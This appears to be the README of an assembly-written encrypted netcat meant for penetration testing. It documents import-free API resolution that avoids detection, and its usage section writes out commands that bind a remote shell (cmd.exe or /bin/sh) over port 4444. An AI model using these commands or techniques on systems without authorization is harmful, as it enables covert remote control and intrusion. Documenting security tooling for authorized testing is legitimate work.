

<div align="center">



<br>

Grotto is an encrypted netcat written entirely in x86_64 NASM assembly for Linux and Windows. A bidirectional relay with ChaCha20-Poly1305 authenticated encryption, resolved entirely through PEB walking on Windows and raw syscalls on Linux — zero imports, zero dependencies. Supports interactive shell execution via `-e` for encrypted remote command sessions.

</div>

<br>

## Table of Contents

- [Highlights](#highlights)
- [Quick Start](#quick-start)
- [Architecture](#architecture)
- [Wire Protocol](#wire-protocol)
- [Internals](#internals)
- [Project Structure](#project-structure)
- [Future Work](#future-work)

---

## Highlights

<table>
<tr>
<td width="50%">

### ChaCha20-Poly1305
Full RFC 8439 AEAD implemented in pure assembly. Authenticated encryption with a 256-bit pre-shared key — every message gets a fresh random nonce, and tampered payloads are silently rejected.

</td>
<td width="50%">

### Cross-Platform
Dual-target build: Linux (~13 KB static ELF) and Windows (~8 KB minimal PE). Shared crypto core, platform-specific networking and I/O. Same wire protocol, full interoperability.

</td>
</tr>
<tr>
<td width="50%">

### PEB Walk + Hash Lookup
All Windows APIs resolved at runtime via PEB walking and ror13 hash matching. No import table, no strings for API names — just hashes baked into the binary. Linux uses raw syscalls with no libc dependency.

</td>
<td width="50%">

### No Dependencies
Zero DLL imports on Windows. No libc on Linux. Every API (kernel32, ws2_32, advapi32) is resolved dynamically from the PEB. Nothing to link against, nothing to install on the target.

</td>
</tr>
<tr>
<td width="50%">

### Encrypted Shell Relay
The `-e` flag spawns an interactive shell (`cmd.exe` or `/bin/sh`) with stdin/stdout piped through the encrypted channel. Full bidirectional relay — every keystroke and response encrypted with AEAD.

</td>
<td width="50%">

### Threaded + Poll Architectures
Windows uses `CreateThread` with `WaitForMultipleObjects` for concurrent bidirectional relay. Linux uses `poll(2)` for single-threaded multiplexed I/O. Both handle pipe EOF and connection teardown cleanly.

</td>
</tr>
</table>

---

## Quick Start

### Prerequisites

| Requirement | Version |
|-------------|---------|
| NASM | Latest |
| MinGW-w64 (linker) | `x86_64-w64-mingw32-ld` |
| ld (Linux) | GNU ld (via WSL or native) |

### Build

```bash
# Clone
git clone https://github.com/Real-Fruit-Snacks/Grotto.git
cd Grotto

# Build both targets — generates a random PSK and prints usage
./build.sh

# Or use make directly
make all

# Outputs:
#   build/grotto      (Linux ELF, ~13 KB)
#   build/grotto.exe  (Windows PE, ~8 KB)
```

### Usage

```bash
# Generate a 256-bit PSK
KEY=$(python3 -c "import secrets; print(secrets.token_hex(32))")

# Listener (wait for connection)
./grotto -l -p 4444 -k $KEY

# Client (connect to listener)
./grotto -c 10.10.14.1 -p 4444 -k $KEY

# Encrypted shell — listener spawns cmd.exe / /bin/sh
./grotto -l -p 4444 -k $KEY -e cmd.exe
./grotto -c 10.10.14.1 -p 4444 -k $KEY

# Pipe data through encrypted channel
echo "secret message" | ./grotto -c 10.10.14.1 -p 4444 -k $KEY
```

> Both sides must use the same 256-bit pre-shared key (64 hex characters). The key is zeroed from memory on exit.

---

## Architecture

```
[Machine A]                        [Machine B]
 grotto -l  <── encrypted TCP ──>  grotto -c
     |                                  |
  stdin/stdout                     stdin/stdout
  or -e shell                      or -e shell
```

| Layer | Implementation |
|-------|----------------|
| **Transport** | Raw TCP socket (Linux: `socket`/`bind`/`accept`/`connect` syscalls, Windows: Winsock2 via PEB) |
| **Encryption** | ChaCha20-Poly1305 AEAD (RFC 8439), pre-shared 256-bit key |
| **Nonce** | 12 bytes, random per message (`getrandom` on Linux, `SystemFunction036` on Windows) |
| **Wire Format** | `[len(4)][nonce(12)][ciphertext][mac(16)]` |
| **API Resolution** | Linux: raw syscalls, Windows: PEB walk + ror13 hash matching |
| **I/O Relay** | Linux: `poll(2)` multiplexed loop, Windows: `CreateThread` + `WaitForMultipleObjects` |
| **Shell Exec** | Linux: `fork`/`execve`/`dup2` with pipes, Windows: `CreateProcessA` with `STARTUPINFO` pipe redirection |

---

## Wire Protocol

Every message on the wire follows the same framing, in both directions:

```
+----------+--------------+----------------+----------+
| len (4B) | nonce (12B)  | ciphertext (N) | mac (16B)|
| LE u32   | random       | ChaCha20       | Poly1305 |
+----------+--------------+----------------+----------+
```

- **len**: Little-endian uint32, covers `nonce + ciphertext + mac` (everything after the length field)
- **nonce**: 12 random bytes from OS CSPRNG
- **ciphertext**: ChaCha20 stream cipher (counter starts at 1, per RFC 8439)
- **mac**: Poly1305 tag computed over `pad16(ciphertext) || le64(0) || le64(ct_len)` using one-time key derived from ChaCha20 block 0

---

## Internals

### API Resolution

**Linux**: Direct syscalls via `syscall` instruction — no libc, no dynamic linking, fully static.

**Windows**: Walk the PEB (`gs:[0x60]`) to find loaded modules, hash each export name with ror13, resolve 25 APIs across kernel32.dll, ws2_32.dll, and advapi32.dll. `GetProcAddress` handles forwarded exports (e.g., `SystemFunction036`).

### Crypto Implementation

All crypto is implemented in pure x86_64 assembly, shared between platforms:

- **ChaCha20 quarter-round**: Register-based, 10 double-rounds (20 rounds total)
- **ChaCha20 block**: Generates 64-byte keystream blocks
- **ChaCha20 encrypt**: XOR keystream with plaintext/ciphertext, counter starting at 1
- **Poly1305 MAC**: Full mod 2^130-5 arithmetic with 128-bit partial products
- **AEAD**: ChaCha20 block 0 derives Poly1305 one-time key, encrypt with counter 1+, MAC over ciphertext per RFC 8439 Section 2.8

### Relay Architecture

**Linux** (`poll`-based): Single-process event loop polls both the socket and local fd (stdin or shell pipe). Handles `POLLIN`, `POLLHUP`, and `POLLERR` — reads pending data before honoring hangup to prevent data loss on pipe EOF.

**Windows** (threaded): Two worker threads with 256 KB stacks each — one for socket-to-local (decrypt direction), one for local-to-socket (encrypt direction). `WaitForMultipleObjects` on thread handles; when either thread exits, cleanup terminates the child process and exits.

### Memory Layout

Thread buffers (~128 KB per direction) are allocated on the stack:

| Buffer | Size | Purpose |
|--------|------|---------|
| Receive buffer | 65,568 B | Encrypted wire data (65536 + 32 overhead) |
| Plaintext buffer | 65,536 B | Decrypted output / plaintext input |
| Send buffer | 65,568 B | Encrypted outbound data |
| Length header | 4 B | Wire protocol framing |

---

## Project Structure

```
grotto/
├── linux/
│   ├── main.asm       # Linux entry point, CLI parsing (~398 lines)
│   ├── net.asm        # Raw syscall networking (socket/bind/connect)
│   ├── io.asm         # poll(2)-based bidirectional relay
│   ├── crypto.asm     # Nonce generation, encrypt/decrypt wrappers
│   └── shell.asm      # fork/execve/dup2 shell spawning
├── windows/
│   ├── main.asm       # Windows entry point, CLI parsing (~499 lines)
│   ├── peb.asm        # PEB walking, ror13 API resolution
│   ├── net.asm        # Winsock2 networking (WSAStartup/socket/bind/connect)
│   ├── io.asm         # Threaded bidirectional relay (CreateThread)
│   ├── crypto.asm     # SystemFunction036 nonce, encrypt/decrypt wrappers
│   └── shell.asm      # CreateProcessA with pipe redirection
├── shared/
│   ├── chacha20.inc   # ChaCha20 stream cipher (~276 lines)
│   ├── poly1305.inc   # Poly1305 MAC (~403 lines)
│   └── aead.inc       # AEAD encrypt/decrypt (~249 lines)
├── build.sh           # Build script with PSK generation
├── Makefile           # NASM + ld build targets
└── docs/
    ├── index.html     # GitHub Pages landing page
    └── banner.svg     # Repository banner
```

~3,800 lines of handwritten x86_64 NASM assembly. No generated code.

---

## Future Work

- Reconnect with jittered backoff
- File upload/download commands
- SOCKS proxy pivoting
- Port forwarding (`-L` / `-R` tunnels)

---

<div align="center">

**Pure assembly. Fully encrypted. Cross-platform.**

*Grotto — ChaCha20-Poly1305 encrypted netcat in ~8 KB*

---

**For authorized use only.** This tool is intended for legitimate security research, authorized penetration testing, and educational purposes. Unauthorized access to computer systems is illegal. Users are solely responsible for ensuring compliance with all applicable laws and obtaining proper authorization before use.

</div>
